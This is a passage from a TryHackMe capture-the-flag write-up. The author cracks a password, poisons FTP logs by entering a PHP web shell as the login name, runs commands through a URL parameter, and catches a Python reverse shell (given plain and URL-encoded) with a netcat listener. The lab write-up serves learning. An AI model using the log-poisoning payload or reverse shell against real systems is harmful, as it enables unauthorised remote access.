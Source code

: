 ```
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidate.Engine.: Device Generator
Candidates.#1....: tigger -> butterfly
Hardware.Mon.#1..: Temp: 70c Util: 73%

Started: Thu Nov  3 19:29:45 2022
Stopped: Thu Nov  3 19:29:50 2022
```
The password allowed me to log into the website on port 80. The website had one button to ask for Logs from the system, which appeared to be related to authentication attempts through FTP on port 21. With help from the medium post in the ```Assistance``` section, I needed to poison the FTP logs using php code which can execute in the browser. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ ftp [REMOTE IP]
Connected to [REMOTE IP].
220 (vsFTPd 3.0.3)
Name ([REMOTE IP]:ajread): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> exit
221 Goodbye.
```
Within the url, I could add commands that I would like to execute like whoami. 
```
http://[REMOTE IP]/welcome.php?c=whoami;
```
And it would output my user within the log data. 
```
Thu Nov 3 23:54:08 2022 [pid 3323] ['www-data '] FAIL LOGIN: Client "::ffff:10.6.6.138"
```
I changed the the url to return a reverse shell back to my machine in python3. 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LOCAL IP]",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
I needed to url encode the reverse shell as well. 
```
python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22[LOCAL IP]%22%2C9999%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```
After placing the url encoded reverse shell in the url, I entered the url and pressed the log button which returned me a shell.
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [REMOTE IP] 38750
www-data@brute:/var/www/html$ whoami
whoami
www-data
www-data@brute:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I was dropped into the ```/var/www/html``` directory. The directory contained an interesting config file. 
```
www-data@brute:/var/www/html$ ls -la
ls -la
total 28
drwxr-xr-x 2 www-data root 4096 Nov 23  2021 .
```